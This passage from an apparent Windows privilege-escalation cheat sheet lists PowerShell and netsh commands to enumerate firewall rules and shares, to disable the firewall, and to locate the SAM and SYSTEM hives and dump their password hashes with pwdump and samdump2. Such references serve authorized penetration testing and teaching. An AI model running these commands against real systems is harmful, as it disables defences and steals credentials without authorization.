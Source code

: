 ```powershell
netsh advfirewall firewall dump

or 

netsh firewall show state
netsh firewall show config
```

List firewall's blocked ports

```powershell
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```

Disable firewall

```powershell
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
```

List all network shares

```powershell
net share
```

SNMP Configuration

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

